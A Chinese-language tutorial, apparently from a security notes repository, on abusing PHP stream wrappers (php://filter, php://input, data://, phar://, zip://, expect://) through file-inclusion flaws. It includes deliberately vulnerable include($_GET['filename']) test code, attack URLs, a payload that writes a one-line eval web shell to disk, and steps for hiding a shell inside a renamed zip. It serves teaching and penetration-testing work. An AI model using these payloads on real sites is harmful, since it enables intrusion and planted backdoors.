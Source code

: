PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统函数。 除了这些封装协议，还能通过 stream_wrapper_register() 来注册自定义的封装协议。
## Table of Contents 
![Alt text](./013.png)

## php://      输入输出流
PHP 提供了一些杂项输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符， 内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。。
### php://filter（本地磁盘文件进行读取）
元封装器，设计用于"数据流打开"时的"筛选过滤"应用，对本地磁盘文件进行读写

用法：?filename=php://filter/convert.base64-encode/resource=xxx.php
?filename=php://filter/read=convert.base64-encode/resource=xxx.php 一样

条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；

php://filter 目标使用以下的参数作为它路径的一部分。 复合过滤链能够在一个路径上指定。详细使用这些参数可以参考具体范例。
![Alt text](./012.png)

测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
测试结果：
![Alt text](./000.png)
###  php://input
可以访问请求的原始数据的只读流。即可以直接读取到POST上没有经过解析的原始数据。
enctype="multipart/form-data" 的时候 php://input 是无效的。

用法：?file=php://input 数据利用POST传过去


####  php://input （读取POST数据）

碰到file_get_contents()就要想到用php://input绕过，因为php伪协议也是可以利用http协议的，即可以使用POST方式传数据，具体函数意义下一项；

测试代码：
```
<?php
	echo file_get_contents("php://input");
?>
```
测试结果：

 ![Alt text](./001.png)

####  php://input（写入木马）
测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.3.0）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行。

如果POST的数据是执行写入一句话木马的PHP代码，就会在当前目录下写入一个木马。
```
<?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
```

![Alt text](./006.png)

测试结果：
![Alt text](./007.png)

如果不开启allow_url_include会报错
![Alt text](./005.png)
 
####  php://input（命令执行）
测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.30）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行；
![Alt text](./004.png)
如果不开启allow_url_include会报错
![Alt text](./005.png)
 
###  file://伪协议 （读取文件内容）
通过file协议可以访问本地文件系统，读取到文件的内容

测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
测试结果：
![Alt text](./008.png)
 
###  data://伪协议

数据流封装器，和php://相似都是利用了流的概念，将原本的include的文件流重定向到了用户可控制的输入流中，简单来说就是执行文件的包含方法包含了你的输入流，通过你输入payload来实现目的；
data://text/plain;base64,dGhlIHVzZXIgaXMgYWRtaW4
#### data://（读取文件）
和php伪协议的input类似，碰到file_get_contents()来用；
<?php
// 打印 "I love PHP"
echo file_get_contents('data://text/plain;base64,SSBsb3ZlIFBIUAo=');
?>
注意：
<?php phpinfo();,这类执行代码最后没有?>闭合；
#### data://（读取文件）
如果php.ini里的allow_url_include=On（PHP < 5.3.0）,就可以造成任意代码执行，同理在这就可以理解成远程文件包含漏洞（RFI）
测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
测试结果：
![Alt text](./014.png)

### phar://伪协议
这个参数是就是php解压缩包的一个函数，不管后缀是什么，都会当做压缩包来解压。

用法：?file=phar://压缩包/内部文件
phar://xxx.png/shell.php
注意：
PHP > =5.3.0
压缩包需要是zip协议压缩，rar不行，将木马文件压缩后，改为其他任意格式的文件都可以正常使用。
步骤：
写一个一句话木马文件shell.php，然后用zip协议压缩为shell.zip，然后将后缀改为png等其他格式。
测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
测试结果：
![Alt text](./009.png)

###  zip://伪协议
zip伪协议和phar协议类似，但是用法不一样。

用法：?file=zip://[压缩文件绝对路径]#[压缩文件内的子文件名]
zip://xxx.png#shell.php

条件：
PHP > =5.3.0，注意在windows下测试要5.3.0<PHP<5.4 才可以
\#在浏览器中要编码为%23，否则浏览器默认不会传输特殊字符

测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
测试结果：
![Alt text](./011.png)
###  PHP expect://

还未测试

允许执行系统命令，不过很可惜，需要安装扩展

http://pecl.php.net/package/expect

默认情况下不启用

http://127.0.0.1/lfi.php?file=expect://ls
